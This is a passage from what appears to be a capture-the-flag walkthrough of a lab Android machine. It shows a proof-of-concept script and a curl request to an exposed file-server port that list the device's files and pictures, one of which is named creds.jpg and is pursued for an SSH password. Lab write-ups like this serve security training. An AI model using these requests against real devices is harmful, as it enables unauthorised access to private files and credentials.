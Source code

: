     listFiles: List all the files
    listPics: List all the pictures
    listVideos: List all the videos
    listAudios: List all the audio files
    listApps: List all the apps installed
    listAppsSystem: List all the system apps
    listAppsPhone: List all the phone apps
    listAppsSdcard: List all the apk files in the sdcard
    listAppsAll: List all the apps installed (system apps included)
    getDeviceInfo: Get device info. Package name parameter is needed
    appPull: Pull an app from the device
    appLaunch: Launch an app. Package name parameter is needed
    getAppThumbnail: Get the icon of an app. Package name parameter is needed
    

Same files come back from `listFile`:

    
    
    oxdf@parrot$ python poc.py --cmd listFiles --host 10.10.10.247  
    [*] Executing command: listFiles on 10.10.10.247
    [*] Server responded with: 200
    [
    {"name":"lib", "time":"3/25/20 05:12:02 AM", "type":"folder", "size":"12.00 KB (12,288 Bytes)", }, 
    {"name":"vndservice_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"65.00 Bytes (65 Bytes)", }, 
    {"name":"vendor_service_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 
    {"name":"vendor_seapp_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 
    {"name":"vendor_property_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"392.00 Bytes (392 Bytes)", }, 
    {"name":"vendor_hwservice_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 
    {"name":"vendor_file_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"6.92 KB (7,081 Bytes)", }, 
    ...[snip]...
    

### Find SSH Password

Enumerating this port, it’s actually the `listPics` command that helps for
Explore:

    
    
    oxdf@parrot$ curl 10.10.10.247:59777 -d '{"command": "listPics"}'
    [
    {"name":"concept.jpg", "time":"4/21/21 02:38:08 AM", "location":"/storage/emulated/0/DCIM/concept.jpg", "size":"135.33 KB (138,573 Bytes)", },
    {"name":"anc.png", "time":"4/21/21 02:37:50 AM", "location":"/storage/emulated/0/DCIM/anc.png", "size":"6.24 KB (6,392 Bytes)", },
    {"name":"creds.jpg", "time":"4/21/21 02:38:18 AM", "location":"/storage/emulated/0/DCIM/creds.jpg", "size":"1.14 MB (1,200,401 Bytes)", },
    {"name":"224_anc.png", "time":"4/21/21 02:37:21 AM", "location":"/storage/emulated/0/DCIM/224_anc.png", "size":"124.88 KB (127,876 Bytes)", },
    ]
    